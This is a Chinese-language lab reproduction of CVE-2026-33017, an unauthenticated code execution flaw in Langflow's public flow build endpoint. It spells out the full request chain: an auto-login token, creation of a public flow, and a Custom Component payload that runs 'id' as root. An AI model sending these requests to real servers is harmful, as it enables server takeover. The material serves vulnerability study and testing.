

# Langflow 公开流程构建接口未授权远程代码执行（CVE-2026-33017）

Langflow 是一个流行的开源智能体 AI 工作流构建工具，提供基于 Python 的 Web 界面，用于可视化地搭建 AI 智能体和管道。

Langflow 1.8.2 及更早版本中存在一个严重的未授权远程代码执行漏洞（CVE-2026-33017），修复于 1.9.0 版本。`POST /api/v1/build_public_tmp/{flow_id}/flow` 接口原本用于在“可分享 Playground”（公开流程）场景下免认证地构建流程，但它同时接受一个可选的 `data` 参数，该参数会完全替换数据库中保存的流程定义。当提交的流程中包含自定义组件（Custom Component）节点时，其 `code` 字段在图编译阶段会被不带沙箱的 `exec()` 执行，且代码中的模块级赋值语句先于任何校验运行。由于 Langflow 默认开启 `AUTO_LOGIN`，未授权攻击者可以先调用自动登录接口获取超级用户令牌，创建一个自己的公开流程，再提交恶意流程定义，最终以服务进程的权限执行任意命令。

参考链接：

- <https://github.com/advisories/GHSA-vwmf-pq79-vjvx>
- <https://www.sonicwall.com/blog/langflow-ai-code-injection-to-rce-flaw>
- <https://github.com/MaxMnMl/langflow-CVE-2026-33017-poc>
- <https://research.jfrog.com/post/langflow-latest-version-was-not-fixed/>
- <https://github.com/langflow-ai/langflow/releases/tag/1.9.0>

## 环境搭建

执行如下命令启动一个 Langflow 1.8.1 服务器：

```
docker compose up -d
```

服务启动后，访问 `http://your-ip:7860` 即可看到 Langflow 界面。环境保持了默认配置（开启了自动登录），无需任何凭据。

## 漏洞复现

首先，从自动登录接口获取一个有效的访问令牌。由于 Langflow 默认开启 `AUTO_LOGIN`，该接口无需任何凭据即可返回超级用户 JWT：

```
GET /api/v1/auto_login HTTP/1.1
Host: your-ip:7860
```

响应中包含 `access_token`。然后，使用该令牌创建一个 `access_type` 为 `PUBLIC` 的流程——这是漏洞接口唯一接受的流程类型。流程本身可以是空的，因为其内容稍后会被完全替换：

```
POST /api/v1/flows/ HTTP/1.1
Host: your-ip:7860
Authorization: Bearer {access_token}
Content-Type: application/json

{"name": "poc", "endpoint_name": "poc", "access_type": "PUBLIC", "data": {"nodes": [], "edges": []}}
```

记下响应中新创建流程的 `id` 字段。接下来，向公开构建接口发送真正的攻击请求。请求必须携带任意值的 `client_id` Cookie，`data` 参数中则夹带一个自定义组件节点，其 `code` 字段包含一条模块级赋值语句：读取 `id` 命令的输出并在异常中重新抛出，这样命令输出就会回显在构建事件中：

```
POST /api/v1/build_public_tmp/{flow_id}/flow HTTP/1.1
Host: your-ip:7860
Content-Type: application/json
Cookie: client_id=anything

{"data": {"nodes": [{"id": "CustomComponent-pwn", "type": "genericNode", "data": {"id": "CustomComponent-pwn", "type": "CustomComponent", "node": {"template": {"code": {"type": "str", "value": "from lfx.custom import Component\n\n_x = exec(\"raise Exception(__import__('os').popen('id').read())\")\n\nclass Pwn(Component):\n    display_name = \"Pwn\"\n    def build(self) -> None:\n        pass\n"}, "_type": "CustomComponent"}, "base_classes": ["CustomComponent"], "display_name": "Custom Component", "outputs": [{"types": ["CustomComponent"], "name": "Custom Component"}]}}}], "edges": []}}
```

响应会返回一个 `job_id`。最后，通过构建事件接口（同样无需认证）以 `event_delivery=polling` 方式轮询结果：

```
GET /api/v1/build_public_tmp/{job_id}/events?event_delivery=polling HTTP/1.1
Host: your-ip:7860
```

响应中的错误事件包含了在容器内执行 `id` 命令的输出，说明任意 Python 代码已经以 Langflow 服务进程的权限运行：

```
{"event": "error", "data": {"text": "Error creating class. Exception(uid=0(root) gid=0(root) groups=0(root)\n).\n", ...}}
```


